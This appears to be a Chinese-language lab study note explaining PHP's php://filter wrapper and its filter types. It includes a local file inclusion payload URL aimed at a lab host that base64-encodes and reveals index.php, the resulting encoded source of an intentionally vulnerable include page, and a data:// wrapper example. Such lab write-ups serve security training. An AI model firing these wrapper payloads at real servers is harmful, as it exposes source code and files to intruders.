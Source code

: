 

```bash
echo file_get_contents
("php://filter/read=convert.base64-encode|convert.base64-encode/resource=data://text/plain,<?php phpinfo();?>");
```

> `data://text/plain` 是一种 PHP 数据流，允许您在 PHP 脚本中直接嵌入数据
>
> 上述代码对 `<?php phpinfo();?>` 进行了**两次base64编码**处理。

#### php://filter协议的过滤器分为四类

1. 字符串过滤器
2. 转换过滤器
3. 压缩过滤器
4. 加密过滤器

##### filter字符串过滤器

每个过滤器都正如其名字暗示的那样工作并与内置的 PHP 字符串函数的行为相对应。

字符串过滤器以 string 开头，常见的过滤器有 rot13、toupper、tolower等

![image-20241031104213171](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031104213171.png)

##### filter转换过滤器

主要含有三类，分别是base64的编码转换、quoted-printable的编码转换以及iconv字符编码的转换。该类过滤器以convert（转换）开头。

- convert.base64-encode
- convert.base64-decode

将数据进行base64编码、解码

![image-20241031104253626](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031104253626.png)

#### LFI-1

包含函数并不直接看到代码而只是执行，但是通过`filter`方式可以将**代码显示**出来

##### php://filter显示index.php

例如LFI-1例子，使用了include，只能执行，看不到源码

> php://filter/convert.base64-encode/resource=index.php

```bash
http://192.168.70.10:8101/LFI-1/index.php?page=php://filter/convert.base64-encode/resource=index.php
```

![image-20241031135827653](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031135827653.png)

```bash
PD9waHAgICAgIGluY2x1ZGUoIi4uL2NvbW1vbi9oZWFkZXIucGhwIik7ICAgPz4NCg0KPCEtLSBmcm9tIGh0dHBzOi8vcGVudGVzdGVybGFiLmNvbS9leGVyY2lzZXMvcGhwX2luY2x1ZGVfYW5kX3Bvc3RfZXhwbG9pdGF0aW9uL2NvdXJzZSAtLT4NCjw/cGhwIGhpbnQoIndpbGwgaW5jbHVkZSB0aGUgYXJnIHNwZWNpZmllZCBpbiB0aGUgR0VUIHBhcmFtZXRlciBcInBhZ2VcIiIpOyA/Pg0KDQo8Zm9ybSBhY3Rpb249Ii9MRkktMS9pbmRleC5waHAiIG1ldGhvZD0iR0VUIj4NCiAgICA8aW5wdXQgdHlwZT0idGV4dCIgbmFtZT0icGFnZSI+DQo8L2Zvcm0+DQoNCjw/cGhwDQppbmNsdWRlKCRfR0VUWyJwYWdlIl0pOw0KPz4NCg==
```
